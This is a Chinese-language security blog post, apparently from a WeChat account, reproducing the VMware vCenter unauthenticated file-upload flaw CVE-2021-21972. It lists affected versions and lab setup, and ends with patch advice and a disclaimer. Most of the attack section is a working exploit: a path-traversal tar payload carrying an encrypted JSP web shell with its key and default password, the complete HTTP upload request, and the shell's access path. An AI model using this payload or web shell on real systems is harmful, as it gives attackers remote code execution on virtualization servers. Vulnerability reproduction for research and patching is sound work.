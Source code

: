 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/jI3kMCq5FMnNkgvKr1tFMg)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvN0OQaCe1ricvzEj9BaE1JJT5HNQtcaL1FKO6INgOicniaiba2KlZI7VjkA/640?wx_fmt=png)

Vmware vcenter 未授权任意文件上传  

(CVE-2021-21972)

一、漏洞简介

VMware 是一家云基础架构和移动商务解决方案厂商，提供基于 VMware 的虚拟化解决方案。

高危严重漏洞：

在 CVE-2021-21972 VMware vCenter Server 远程代码漏洞 中，攻击者可直接通过 443 端口构造恶意请求，执行任意代码，控制 vCenter。

漏洞为任意文件上传:

存在问题的接口为

/ui/vropspluginui/rest/services/uploadova，

完整路径

（https://ip:port/ui/vropspluginui/rest/services/uploadova）

二、影响版本

VMware vCenter Server 7.0 系列 < 7.0.U1c

VMware vCenter Server 6.7 系列 < 6.7.U3l

VMware vCenter Server 6.5 系列 < 6.5 U3n

VMware ESXi 7.0 系列 < ESXi70U1c-17325551

VMware ESXi 6.7 系列 < ESXi670-202102401-SG

VMware ESXi 6.5 系列 < ESXi650-202102101-SG

三、环境准备 & 漏洞复现

```
安装EXSI  7.0.0

VMware vSphere虚拟机监控程序（ESXi）
链接：https://cld16.irans3.com/dlir-s3/VMware-VMvisor-Installer-7.0.0-15843807.x86_64.iso
VMware-VMvisor-Installer-7.0.0-15843807.x86_64.iso档案大小：350 MB
MD5：220d2e87290f50c3508214cadf66b737
SHA1：7fda0401ee1b2f49aae89043f9b2d509cf7e25db
安装：https://blog.51cto.com/10802692/2409826

下载 vCenter Server

VMware vCenter Server
链接：https://cld5.irans3.com/dlir-s3/VMware-VCSA-all-7.0.0-15952498.iso
VMware-VCSA-all-7.0.0-15952498.iso档案大小：6.42 GB
MD5：94bb30ae83cd5f12e2eecce114d43007
SHA1：17aa2b1ee20e977fb4f8f8391563f57c3e456361
安装：https://blog.csdn.net/qq_38028248/article/details/107712839
（环境安装参考来源：作者: print("")师傅环境部署）
```

midi.tar（后台回复："vmware"）获取

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvvutdTiaTCiaac8FuiaI47rickCo6DfpNamCWmria6OiaG8ohscpPOZk9U1sA/640?wx_fmt=png)

```
../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/42/0/h5ngc.war/resources/0000755000000000000000000000000014015431210027145 5ustar  rootroot../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/42/0/h5ngc.war/resources/shell.jsp0000644000000000000000000000117114015430711030777 0ustar  rootroot<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}/*1kdnwbry2LyI7pyA*/%>
```

https://ip:port/ui/vropspluginui/rest/services/uploadova

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvH3ob9c4icEoEvGX5BKCsq9wmQ3n6vq0BAEDPicmZ2icC4qnuCufkWGQXQ/640?wx_fmt=png)

```
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWv0063RcoKajGlmZhopHcHM4GohQVoR0q4pd5PJVIYLq0oIUBS5TlNTA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWv1J6wN7OnmTqA6J7JqyduPDXicgDxZk4SZSbeoOSibdoMM4vqjYW6ZyiaQ/640?wx_fmt=png)

返回 sucess 证明上传 tar 成功

访问 shell 地址：

https://127.0.0.1/ui/resources/shell.jsp

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvsgOKRfibicMzxMHfz4aVC875eJgUkc57EKGxhaKs6zlr2DuG5sLQ0Mzw/640?wx_fmt=png)

连接木马 shell:  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvwyvLhq5l1wxC0ZHsElQxbFzyv8pBWU0oK2XkgQMRwh9TbNB5NezVicw/640?wx_fmt=png)

相关命令执行：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcc6icxE6kxGgxN5LaTjkEWvSDyydmUktCDEAtR9FOMpcodIbgkIKd02nnWFMn4ppzAg4ktLDibqqXA/640?wx_fmt=png)

具体细节上传点：包  

```
POST /ui/vropspluginui/rest/services/uploadova HTTP/1.1
Host: 127.0.0.1
Connection: close
Accept: application/json
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Length: 10425

------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition: form-data; 
Content-Type: text/plain

../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/42/0/h5ngc.war/resources/0000755000000000000000000000000014015431210027145 5ustar  rootroot../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/42/0/h5ngc.war/resources/shell.jsp0000644000000000000000000000117114015430711030777 0ustar  rootroot<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}/*1kdnwbry2LyI7pyA*/%>
------WebKitFormBoundaryH8GoragzRFVTw1VD--
```

四、安全建议

1、升级 VMware vCenter Server 与 VMware ESXi 至最新版本。

2、针对 CVE-2021-21972 VMware vCenter Server 远程代码漏洞 与 CVE-2021-21973 VMware vCenter Server SSRF 漏洞，可按照 https://kb.vmware.com/s/article/82374 相关措施进行缓解。

3、针对 CVE-2021-21974 VMware ESXI 堆溢出漏洞，可按照 https://kb.vmware.com/s/article/76372 相关措施进行缓解。

参考：

https://swarm.ptsecurity.com/unauth-rce-vmware/

http://www.jsdjbh.gov.cn/tgyj/737.htm

http://blog.nsfocus.net/cve-2021-21972-cve-2021-21974/

https://mp.weixin.qq.com/s/tg64Hy8KECjYPHt98vBLcQ

https://www.o2oxy.cn/3127.html

https://mp.weixin.qq.com/s/q5EGqPNFVxfHgui54cAVuA

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)